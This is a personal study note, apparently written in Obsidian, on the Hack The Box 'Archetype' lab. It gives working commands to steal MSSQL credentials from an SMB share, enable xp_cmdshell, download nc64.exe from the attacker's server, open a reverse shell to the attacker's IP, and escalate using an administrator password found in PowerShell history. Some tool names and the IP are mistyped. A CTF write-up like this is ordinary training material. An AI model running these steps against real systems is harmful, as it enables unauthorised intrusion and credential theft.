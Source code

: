 ```yaml
---
date: 2024-10-08T18:56
tags:
  - HTB
  - MSSQL
  - cybersecurity
  - SMB
  - RemoteCodeExecution
  - Powershell
cssclasses:
  - pen-green
  - page-grid
---
```

#### Instruments and terminology
***
**SMB (Server Message Block)** - protocol used to share files, printers serial ports and miscellaneous communications between node on local network

**Privilege Escalation** - is when a threat actor gains elevated access and administrative rights to a system by exploiting security vulnerabilities. 

**winPEAS** - tool used for looking for Windows local privilege escalation vectors

**Network shares** - also known as `shared resourse` is a computer resource made available from one host to other hosts on a computer network 

**impacet** - collection of python classes for working with network protocols. `Impacket` is focused o providing low-level programmatic access to the packets and for some protocols (SMB1-3 and MSRPC) the protocol implementation itself
  `psexec.py` - is a script that enables the remote execution of commands of Windows machines
  `mssqlclient.py` - command line script for interacting with Microsoft SQL Server. It allows you to execute SQL queries, upload and download files and perform other actions on a SQL Server instance.

**smbclient** - 
#### Used materials
***
- [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)
- [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
- [MSSQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
#### Steps
***
```bash
nmap -sC -sV 10.129.95.187
```

As a result of nmap we have next ports open:
- port 135 - `msrpc`
- port 139 - `netbios-ssn`
- port 445 - `microsoft-ds`
- port 1433 `ms-sql-s`

Since `microsoft-ds` is an SMB, we can use `smbclient` to get network shares

```bash
smbclient -L \\\\10.129.95.187\\
```

As the result we got next network shares
- ADMIN$
- backups
- C$
- IPC$

Lets try to open “backups“ share using `smbclient`

```bash
smbclient \\\\10.129.95.187\\backups
```

We entered the “backups“ share. Here we have `prod.dtsConfig` file that we can download

```bash
get prod.dtsConfig
```

Inside this file, we can see the next line
```xml
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
```

Those are credential for a MS Server database. Now we can connect to it using `impacket` script called `mssqlclient`
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
```

Now, we are connected to MS Server. Now we can try to navigate the OS directories to find something useful. 

Now lets see what users this system has
```bash
EXEC xp_cmdshell "net users"
```

We get an error saying that `sys.xp_cmdshell` is off as part of the security configuration. But we can turn it back on. 

For this purpose we’ll use MSSQL Injection Cheat Sheet from materials 
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Now `EXEC xp_cmdshell` will return list of users:
- `Administrator`
- `sql_svc`
- `DefaultAccount`
- `Guest`
- `WDAUtilityAccount`

Now lets try to install reverse shell to gain access over the server. For this purpose we will run `netcat` on port `443` and `http server` on port 80

```bash
#running netcat
sudo nc -lnvp 443
```

```bash
#starting http server
sudo python3 -m http.server 80
```

Now we should download `nc64.exe` file from materials and send it on the attacked machine

For that we should execute new `powershell` commands
```bash
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.189/nc64.exe -outfile nc64.exe";

EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.189 443";
```

To be clear, if first step we upload `nc64.exe` on the machine through our `http server` on port 80. Then we execute the `nc64.exe`. 

`-e` flag used to execute `cmd.exe` on established connection. 
`10.10.14.9 443` is an address of attacker machine

Now in tab where we run `netcat`, we can navigate through directories
```bash
cd ..
cd Downloads
cat user.txt
```

The `user.txt` file will store the flag.

Now we need to get flag of `administrator`. For that we’ll use tool called `winPEAS`.

```cmd
powershell
.\winPEASx63.exe
```

As a result, `winPEASE` will point a file that can contain some useful information. We can navigate to it and read
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\
type ConsoleHost_history.txt
```

Here is a file content:
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Now we will use `impacket` `psexec` to access machine via administrator credentials
```bash
impakcet psexec administrator:MEGACORP_4dm1n\!\!@10.129.95.187
```

